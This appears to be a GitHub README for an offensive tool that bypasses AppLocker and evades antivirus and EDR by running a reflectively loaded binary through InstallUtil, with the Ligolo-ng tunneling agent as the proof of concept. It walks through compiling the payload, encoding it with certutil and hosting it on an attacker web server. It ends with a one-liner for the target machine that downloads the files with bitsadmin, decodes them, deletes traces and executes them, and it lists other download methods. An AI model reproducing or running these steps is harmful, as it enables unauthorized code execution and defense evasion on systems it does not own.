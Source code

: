 # ApplockerBypassExternalBinary #

The original project can reflectively load and execute PEs locally and remotely bypassing EDR hooks. This modified version integrates the use of InstallUtil, allowing it to bypass security configurations like AppLocker for executing various binaries, including tools like Ligolo-ng.

This project closely resembles the well-known Invoke-ReflectivePEInjection.ps1, but being built in C# made it easier to implement code specifically designed for antivirus evasion. It includes basic evasion techniques that can be further adapted to bypass more recent antivirus solutions.

This setup focuses on executing Ligolo as a functional proof of concept (PoC) but can be easily modified to run any binary, allowing for flexible use with different tools as needed.

# Ligolo-ng Setup and Execution Guide

## 1. Setup Ligolo-ng Agent
To configure and compile the Ligolo-ng agent:

### Step 1: Modify the Ligolo-ng agent's main file
Open and edit main.go to adjust the settings as needed : **/ligolo-ng/cmd/agent/main.go**

![image](https://github.com/user-attachments/assets/3e9dfb54-edb7-420b-83a7-f6679e9d4831)


### Step 2: Compile the agent
Use the following command to compile:
```
GOOS=windows go build -o agent.exe cmd/agent/main.go
```

## 2. Prepare ApplockerBypassExternalBinary
To compile and encode your C# project for use:

### Step 1: Compile the project
Ensure the project is compiled as **Release** and **x64** for compatibility.

### Step 2: Encode the executable with certutil
Use certutil to convert the .exe to Base64, allowing for easier transfer:
```
certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.txt
```

## 3. Setup Your Web Server

Before executing the download on the target machine, set up a web server to host the required files:

- **Option 1**: Use Apache  
  Apache is a reliable choice and works well with all download methods, including `bitsadmin`.

- **Option 2**: Use Python’s SimpleHTTPServer (for quick setups)  
  Run the following command in the directory with your files:
  ```bash
  python -m http.server 80
  ```
  
## 4. Execution on the Target Machine
Use the following one-liner command on the target machine:
```
cmd /c bitsadmin /Transfer myJob http://192.168.xxx.xxx/ligolo-agent.exe C:\users\public\try-agent.exe && cmd /c bitsadmin /Transfer myJob http://192.168.xxx.xxx/pyhttp/AppLockerBypassLigolo.txt C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe
```
Bitsadmin is used as a download method, though it has its pros and cons—such as being deprecated on newer Windows versions and potentially limited by network configurations. Alternatively, certutil can serve as a reliable option for downloading files in many environments. Other flexible methods include curl (available on Windows 10+), or PowerShell’s built-in capability, such as (New-Object System.Net.WebClient).DownloadFile("URL", "path"), which offers compatibility across a wide range of systems.


----------------------------------------------------------------------------------------

- I haven't found any ressource for bypassing applocker with ligolo-ng, so here it is.

- Huge thanks to @cpu0x00 for https://github.com/cpu0x00/SharpReflectivePEInjection

	

	

